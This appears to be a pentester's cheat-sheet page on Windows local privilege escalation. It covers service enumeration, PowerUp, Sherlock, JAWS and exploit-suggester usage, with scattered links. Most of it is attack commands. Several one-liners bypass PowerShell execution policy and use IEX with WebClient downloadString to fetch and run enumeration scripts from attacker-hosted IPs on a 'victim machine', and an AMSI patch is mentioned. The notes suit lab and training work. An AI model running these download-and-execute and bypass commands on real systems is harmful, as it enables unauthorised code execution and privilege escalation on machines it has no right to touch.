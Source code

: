 ###Service
```
https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
./accesschk.exe -ucqv -accepteula UsoSvc 
Get-WmiObject win32_service | Format-Table -Wrap -AutoSize -Property State,Name,PathName 
```


https://github.com/gtworek/Priv2Admin

https://github.com/frizb/Windows-Privilege-Escalation
AMSI PATCH
https://recipeforroot.com/advanced-powerup-ps1-usage/

###powershell with Priv checker
```
powershell -ep bypass
PS C:\> Import-Module PowerUp.ps1

PS C:\> . .\PowerUp.ps1
```
![image](https://user-images.githubusercontent.com/9059079/118397345-7f3fdd80-b621-11eb-805e-df3757f8e371.png)

```


PS C:\Users\merlin\Desktop> PS C:\Users\merlin\Desktop> powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
PS C:\users\merlin\appdata\local\temp> iex(new-object net.webclient).downloadstring('http://10.10.14.5/Sherlock.ps1')
PS C:\users\merlin\appdata\local\temp> Find-AllVulns

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/PowerUp.ps1') ; Invoke-AllChecks"

c:\>powershell.exe -ExecutionPolicy Bypass -noLogo -Command "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/powerup.ps1') ; Invoke-AllChecks"

c:\>powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://192.168.1.2:8000/Sherlock.ps1') ; Find-AllVulns"

If you have your ps1 file downloaded to the victim machine then run using this
c:\>powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"

c:\>powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```
#
powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.124:8111/Sherlock.ps1'); Find-AllVulns

Post Exploit Enum Scripts:
JAWS - Just Another Windows (Enum) Script
```
\Inetpub>icacls wwwroot
```
Usage:

Run from within CMD shell and write out to file.

powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.10.15.24/jaws.ps1','C:\Windows\temp\jaws.ps1')
CMD C:\Windows\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
Run from within CMD shell and write out to screen.

CMD C:\temp> powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1
Run from within PS Shell and write out to file.

PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
WinPrivCheck by ihack4falafel

Sherlock – New one is Watson
```
PS C:\inetpub\drupal-7.54> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.124:8000/Sherlock.ps1') ; Find-AllVulns
C:\inetpub\drupal-7.54>powershell.exe -ExecutionPolicy Bypass -File jaws-enum.ps1
```
PentestMonkey Windows-privesc-check is standalone executable that runs on Windows systems. It tries to find misconfigurations that could allow local unprivileged users to escalate privileges to other users or to access local apps (e.g. databases).

Exploit Suggester For this one, we need to grab the output of systeminfo and then run it against the script. -- Update the database: ./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --systeminfo winsysinfo.txt
OR
-- If we only know about the Operating System name and not much about the hot-fixes, then possible exploits for an operating system can be used without hotfix data
```
./windows-exploit-suggester.py --database 2018-10-28-mssb.xlsx --ostext 'windows server 2008 r2'
```
```
wmic qfe get Caption,Description,HotFixID,InstalledOn

https://guide.offsecnewbie.com/privilege-escalation/windows-pe
```
